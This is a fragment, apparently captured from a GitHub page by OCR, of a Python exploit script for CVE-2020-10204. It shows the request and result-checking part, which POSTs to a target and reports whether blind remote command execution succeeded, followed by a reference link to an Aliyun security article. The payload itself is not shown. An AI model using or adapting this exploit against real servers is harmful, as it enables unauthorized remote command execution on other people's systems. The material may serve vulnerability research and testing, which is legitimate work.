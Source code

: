     r = requests.post(url=vuln_url, headers=headers, data=data, timeout=20)
    if r.status_code == 200:
        if "UNIXProcess" in r.text:
            print ("[+] Command Executed Successfully (Not Echo)")
        else:
            print ("[-] Command Execution Failed")
    else:
        print ("[-] Target Not CVE-2020-10204 Vuln Good Luck")

参考链接
--------

> https://xz.aliyun.com/t/7559
